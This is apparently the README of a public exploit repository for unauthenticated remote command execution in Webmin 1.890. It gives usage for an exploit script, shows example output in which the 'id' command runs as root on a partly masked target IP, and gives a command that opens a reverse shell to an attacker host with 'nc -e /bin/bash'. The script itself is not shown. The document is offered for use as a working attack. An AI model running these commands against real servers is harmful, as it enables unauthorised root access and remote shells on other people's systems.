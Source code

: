# WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>

#USAGE: python3 exploit.py [TARGET IP] [COMMAND]
<br>
#Example Output:<br>
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
<strong>uid=0(root) gid=0(root) groups=0(root)</strong><br>
&lt;/p&gt;

<code>python3 exploit.py 1**.2*.*.*** nc -e /bin/bash [LHOST] [LPORT] </code>
